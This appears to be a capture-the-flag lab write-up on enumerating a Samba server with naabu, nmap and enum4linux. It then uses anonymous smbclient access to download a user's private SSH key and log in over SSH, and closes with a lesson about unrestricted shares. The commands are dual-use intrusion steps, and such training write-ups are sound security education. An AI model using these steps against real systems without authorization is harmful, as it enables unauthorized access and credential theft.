

# SMB Enumeration and Exploitation

## 1. Initial Port Scanning

We begin by scanning the target for open ports using **Naabu** (faster than Nmap).

```bash
naabu -host <target-ip>
```


From the results, port **445** is open which commonly indicates SMB is available. We confirm with a service/version scan using Nmap.

```bash
nmap -sS -Pn -sV <target-ip>
```


Nmap confirms that **Samba** is running on ports **445** and **139**.

---

## 2. SMB Enumeration

We use `enum4linux` to gather detailed SMB-related information.

```bash
enum4linux -a <target-ip>
```

### Key Output:
```
OS Info: POLOSMB server (Samba, Ubuntu)
Sharename       Type      Comment
---------       ----      -------
netlogon        Disk      Network Logon Service
profiles        Disk      Users profiles
print$          Disk      Printer Drivers
IPC$            IPC       IPC Service

Enumerated Users:
S-1-22-1-1000 Unix User\cactus
S-1-22-1-1001 Unix User\ubuntu
```
This gives us valid usernames and share names and more information.

---

## 3. Connecting to SMB Shares

Try accessing the share using `smbclient`:

```bash
smbclient //10.10.31.150/profiles -U "Anonymous" -p 445
```
If no password is required, you'll get access.

```bash
smb: \> dir
Working From Home Information.txt
.ssh/
```
We find interesting files including `.ssh` and a text file with credentials hints.

Download file for further inspection:

```bash
get "Working From Home Information.txt"
```

### Content of the file:
```
John Cactus,

...your account has now been enabled with SSH access to the main server...
```

This suggests SSH access is available for user **cactus**.

---

## 4. SSH Access from Private Key

Explore the `.ssh` directory and retrieve the **id_rsa** file (private key).

```bash
get id_rsa
```

Change permissions locally to avoid SSH warnings:

```bash
chmod 600 id_rsa
```

Then connect using SSH:

```bash
ssh -i id_rsa cactus@<target-ip>
```


---

## 5. Conclusion

-  Enumerated SMB shares and discovered `.ssh` folder.
-  Retrieved private key for user `cactus`.
-  Gained shell access through SSH and captured the flag.

> **Lesson:** Unrestricted SMB shares can expose sensitive data such as private SSH keys, leading to full system compromise.

---

**Tools Used**: `naabu`, `nmap`, `enum4linux`, `smbclient`, `ssh`